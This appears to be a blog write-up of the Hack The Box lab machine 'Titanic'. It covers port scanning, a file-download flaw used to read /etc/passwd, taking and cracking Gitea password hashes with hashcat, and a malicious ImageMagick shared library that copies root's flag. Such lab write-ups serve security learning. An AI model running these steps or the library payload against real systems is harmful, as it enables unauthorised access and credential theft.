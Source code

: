 ```yaml
---
title: HTB Titanic - Writeup
description: Easy Linux Seasonal Machine
date: 2025-02-20
image: cover.png
categories:
    - Writeups
tags:
    - HTB
    - Easy
    - Linux
---
```

Let's start with a fast scan, i normally use rustscan to gather the open ports faster:
```sh
rustscan --top -a <victim_ip> | tee initialScan.txt
```
![Initial Scan](1.png)

once it's finished, i copy the open ports and scan them with nmap looking out for the versions of the services hosted in those ports
```sh
 sudo nmap -sC -sV -p<ports> <ip> -oN targeted
```
It looks like the host is using Ubuntu, to get a better idea of what version of Ubuntu the host has, we can copy the version of the service and search it with launchpad.
![Nmap Scan ](2.png)
Now, the scan shows that the machine is hosting a web server (Apache), so we can look for technologies that the website uses with whatweb
```sh
whatweb http://<ip>
```
![WhatWeb](3.png)
And we get this error, it's looking for a domain named titanic.htb but cannot find the address that the domains points to, we can add the ip and it's domain to the /etc/hosts file to solve this error, you can use your prefered editor, i use nvim btw 🤓
```sh
sudo nvim /etc/hosts
```
At this point, i like to start navigating the website and using burpsuite as a proxy to intercept all the traffic and have more understanding of the page.

By submiting the form to book a trip, it saves the info we submitted in a json format and redirects the browser to a route that downloads the json file 
![Form](4.png)
![JSON response](5.png)
now,  what if we can change the URL to download any file we want? well that's known as Insecure Direct Object Reference (IDOR) which we can use to look for sensitive files like /etc/passwd that shows the users info
![/etc/passwd](6.png)
or /etc/hosts, where it seems that the host has another domain we didn't know
![/etc/hosts](7.png)
add that to your /etc/hosts file and let's navigate to that domain in the browser.
The domain hosts gitea to manage repos ***like github***, well that's a gold mine init? now we can look for the repo that has the server code, the docker config for gitea and mysql
### User Flag
---
The gitea docker-compose file says that the gitea data is in this path /home/developer/gitea/data:/data  
Gitea has a database with the info, usernames and passwords of the users using gitea in this path: ***/home/developer/gitea/data/gitea/gitea.db***

Download that file, convert the gitea password hashes to a format that hashcat can crack, you can use this script from ippsec in python
https://gist.github.com/h4rithd/0c5da36a0274904cafb84871cf14e271
![gitea hashes](8.png)
and then crack it with hashcat
```bash
hashcat -m 10900 <hash> <wordlist> --user --show
```
login with ssh and you got user flag!!
![user](9.png)
```sh
cat user.txt
```

---
### Root Flag
Find writeable directories
```bash
find /opt -writable -type d 2>/dev/null
```
in the /opt/scripts/ there's a script that uses a vulnerable version of ImageMagick
https://github.com/ImageMagick/ImageMagick/security/advisories/GHSA-8rxc-922v-phg8
we can create a shared library to exploit this vulnerability in the writeable directory with this command to extract the root flag
```sh
gcc -x c -shared -fPIC -o ./libxcb.so.1 - << EOF
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor)) void init(){
    system("cp /root/root.txt root.txt; chmod 754 root.txt");
    exit(0);
}
EOF
```
![get root.txt flag](10.png)
and you got the root flag!!
```sh
cat root.txt
```

---
### Conclusion
This machine covers topics like IDOR, file disclosure, looking for CVEs and password cracking.

**Hope you enjoy it and Happy Hacking!**